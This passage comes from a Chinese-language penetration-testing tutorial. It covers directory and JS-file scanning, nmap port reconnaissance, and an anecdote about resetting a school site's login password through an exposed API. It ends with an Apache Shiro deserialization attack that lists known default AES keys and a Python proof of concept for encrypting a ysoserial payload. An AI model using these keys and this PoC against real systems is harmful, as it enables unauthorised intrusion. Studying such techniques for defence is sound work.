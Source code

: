 除此之外，还有御剑：https://github.com/52stu/- 也是比较常用的

[![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15io8l70jj20gi0gidhm.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906193620-8c342654-d09a-1.png)

**JS扫描**
JS文件我们在渗透测试中也是经常用到的东西，有时候我们可以在JS文件中找到我们平时看不到的东西，例如重置密码的JS，发送短信的JS，都是有可能未授权可访问的。JS扫描的话推荐使用JSFind: https://github.com/Threezh1/JSFinder
同时它也会提取页面中的URL，简单举例
[![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15io8wah4j20i905r3z9.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906195742-8865ddb2-d09d-1.png)

**nmap扫描**
Nmap的强大功能能让我们第一时间获取网站的端口信息，而这些端口信息中常常可以给予我们非常大的帮助，例如开放了3389端口，或者一些敏感端口的探测，Nmap的使用方法相比不需要我再多说，每个安全工程师都必须要精通的一种工具，以下是我的一些端口小总结，希望可以给与大家一点儿帮助。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20190906200954-3cb23db4-d09f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190906200954-3cb23db4-d09f-1.png)

[![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h15io9f1kzj20gi0gidhm.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906201005-42c77548-d09f-1.png)

在扫描目录与JS这块，要注意多次爆破，遍历访问多级域名的目录与JS。
我就曾在一个学校网站中，使用Nmap对批量网段的探测，获得了一个登陆网站，并且在网站中遍历目录，获得了一个test页面，最后在这个页面的JS文件中，获取到了一个接口，通过这个接口重置了主登录页面的密码。

------

### **0x04 框架漏洞**

寻找CMS，或者网页框架，以及某些厂商的服务存在漏洞
例如Apache中间件组件Shiro反序列化漏洞，这里简单说一下：
需要一个ysoserial.jar https://github.com/frohoff/ysoserial
以及默认秘钥
4AvVhmFLUs0KTA3Kprsdag==
2AvVhdsgUs0FSA3SDFAdag==
2AvVhdDFCVdfdfDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
kPH+bIxk5D2deZiIxcaaaA
wGiHplamyXlVB11UXWol8g==
6ZmI6I2j5Y+R5aSn5ZOlAA==
AsfawfsdfaAasdWWW==
Z3VucwAAAAAAAAAAAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
1QWLxg+NYmxraMoxAXu/Iw==
POC
from Crypto.Cipher import AES
from Crypto import Random
from base64 import b64encode
from base64 import b64decode

```
BS = AES.block_size
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)

def encrypt(key, text):
    IV = Random.new().read(AES.block_size)
    cipher = AES.new(key, AES.MODE_CBC, IV=IV)
    data = b64encode(IV + cipher.encrypt(pad(text)))
    return data

key= b64decode('2AvVhdsgUs0FSA3SDFAdag==')
print encrypt(key, open('payload.dat','rb').read())
```
